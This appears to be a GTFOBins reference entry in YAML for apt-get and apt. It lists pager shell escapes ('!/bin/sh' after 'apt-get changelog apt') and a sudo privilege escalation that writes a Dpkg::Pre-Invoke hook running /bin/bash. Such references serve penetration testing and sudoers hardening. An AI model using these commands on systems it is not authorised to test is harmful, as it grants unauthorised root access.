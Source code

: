 ```yaml
---
functions:
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        apt-get changelog apt
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo apt-get changelog apt
        !/bin/sh
    - description: 'Sometimes, only some subcommands of `apt` are enabled by sysadmin in the sudoers file. When only `apt install *` is allowed, you can use:'
      code: |
        echo 'Dpkg::Pre-Invoke {"/bin/bash";};' > test.conf
        sudo apt install -c ./test.conf sl
---
```

